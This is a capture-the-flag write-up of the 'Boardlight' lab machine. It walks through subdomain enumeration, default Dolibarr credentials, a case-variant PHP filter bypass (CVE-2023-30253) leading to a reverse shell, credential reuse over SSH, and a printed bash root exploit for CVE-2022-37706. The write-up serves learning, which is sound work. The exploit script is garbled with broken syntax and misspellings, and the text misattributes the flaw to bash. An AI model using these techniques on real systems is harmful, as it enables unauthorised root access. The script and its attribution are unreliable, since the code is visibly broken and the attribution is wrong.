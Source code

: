 ```yaml
---
layout: post
title: "Boardlight-Linux-Easy"
date:   2025-07-12 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/7768afed979c9abe917b0c20df49ceb8.webp
---
```


# Boardlight

# 1. Enumeration

We start with nmap scanning, two ports open, one of them a web application

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled.png' | relative_url }})

Let’s see what is this about, previously the dns recognition was unsuccessful, but thanks to the contact information we can see the domain

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_1.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_2.png' | relative_url }})

So we proceed to find a subdomain using three different tools

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_4.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_5.png' | relative_url }})

Dolibar sign-in as usually we need to discard obvious vulnerabilities as default credentials, and we bypass login interface

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_6.png' | relative_url }})

# 2. User flag

We’ve got the version of the software before, after searching on google we found there’s a vulnerability where someone with determine permissions can obtain RCE **(CVE-2023-30253)**

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_7.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_8.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_9.png' | relative_url }})

Go to create a new website 

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_10.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_11.png' | relative_url }})

The vulnerability consists in edit HTML source, apparently we can’t use php code because we don’t have those permissions but if we try to use variants like “Php, phP, pHp” this filter will be bypassed, using a normal reverse shell we could get a shell as `data`

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_12.png' | relative_url }})

Looking for config files where data has reading permissions we found credentials for the database

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_13.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_14.png' | relative_url }})

If we try to break into the database, it would be useless because it has tons of tables, and users registered are admin:admin that we guess before

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_15.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_16.png' | relative_url }})

Try to use those creds on ssh and got the user flag 

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_17.png' | relative_url }})

# 3.Priv esc

Using linpeas to enumerate the system we found a set uid binary in a path, casualty one of the directories of the path has almost the same of the machine it could be promising

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_18.png' | relative_url }})

There is a vulnerability

CVE-2022-37706 in bash, basically the system library function mishandles path names that begin with /dev/.. substring

```bash
#!/usr/bin/bash

#This code is trying to search a specific vulnerable SUID 
#if if find it, it try to leverage it to obtain full access

echo "CVE-2022-37706"
echo "[*]Trying to find the file of the vulnerable SUID"

#It search through the whole file system with string "enlightenment_sys"
#which has the following permises: SUID (-4000).
#Redirects all errors to /dev/null

file =$(find / -name enlightment_sys -perm -4000 2>/dev/null | head -1)

if[[ -z ${file} ]]
then 
	echo "[- Couldn't find the vulnerable SUID file...]"
	echo "[*] Enlightment should be installed on your system"
	exit 1
	
fi

echo "[+] Vulnerable SUID binery found!!"
echo "[+] Trying to pop up a root shell"

#It creates necessary directories to the exploit 
mkdir -b /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit 

ëcho "[+] Welcome to the rabbit holee!!"

${file} /bin/mount -o \noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,iud=(id -u),\"/dev/../tmp/;/tmp/expoit" /tmp///net

read -p "press any key to clean"

sleep 5 
rm -rf /tmp/exploit
rm -rf /tmp/net

echo -e "Done"

```

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_19.png' | relative_url }})

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>

